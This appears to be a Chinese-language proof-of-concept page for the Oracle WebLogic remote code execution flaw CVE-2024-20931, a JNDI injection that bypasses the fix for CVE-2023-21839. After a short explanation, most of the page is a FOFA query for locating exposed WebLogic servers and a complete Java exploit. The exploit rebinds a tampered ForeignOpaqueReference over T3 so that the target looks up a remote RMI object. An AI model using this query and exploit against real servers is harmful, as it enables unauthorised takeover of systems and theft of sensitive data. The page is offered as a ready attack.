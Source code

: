 ## Weblogic远程代码执行(CVE-2024-20931)

Oracle WebLogic Server是一个用于构建、部署和管理企业级Java应用程序。AQjmsInitialContextFactory 是一个允许应用程序使用JNDI查找方式访问Oracle AQ提供消息服务的工厂类。

ForeignOpaqueReference是一个对象，lookup时会调用getReferent函数，进行远程对象查询。 

该漏洞是 CVE-2023-21839 漏洞绕过，在AQjmsInitialContextFactory初始化时会通过 JNDI获取远程的 DataSource，当通过反射修改 ForeignOpaqueReference 的 jndiEnvironment 和 remoteJNDIName 属性后，再次远程查询ForeignOpaqueReference对象会导致 JNDI 注入，从而直接接管 Oracle WebLogic Server 来执行未经授权的操作或访问系统敏感信息。

## fofa
```
(body="Welcome to WebLogic Server") || (title=="Error 404--Not Found") || (((body="
BEA WebLogic Server" || server="Weblogic" || body="content=\"WebLogic Server" || body="
Welcome to Weblogic Application" || body="
BEA WebLogic Server") && header!="couchdb" && header!="boa" && header!="RouterOS" && header!="X-Generator: Drupal") || (banner="Weblogic" && banner!="couchdb" && banner!="drupal" && banner!=" Apache,Tomcat,Jboss" && banner!="ReeCam IP Camera" && banner!="
Blog Comments
")) || (port="7001" && protocol=="weblogic")
```

## poc
```
package com.supeream;

import weblogic.deployment.jms.ForeignOpaqueReference;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class CVE_2024_209321 {
    public static void main(String[] args) throws Exception {
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";

        // 创建用来远程绑定对象的InitialContext
        String url = "t3://127.0.0.1:7001"; // 目标机器
        Hashtable env1 = new Hashtable();
        env1.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env1.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(env1);

        // ForeignOpaqueReference的jndiEnvironment属性
        Hashtable env2 = new Hashtable();
        env2.put("java.naming.factory.initial", "oracle.jms.AQjmsInitialContextFactory");
        env2.put("datasource", "rmi://127.0.0.1:1099/ygevmj");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "rmi://127.0.0.1:1099/ygevmj";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("glassy", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("glassy");
        } catch (Exception e) {
        }
    }
}
```

## 漏洞来源
- https://github.com/GlassyAmadeus/CVE-2024-20931
- https://glassyamadeus.github.io/2024/01/31/CVE_2024_20931/
- https://forum.butian.net/share/2780
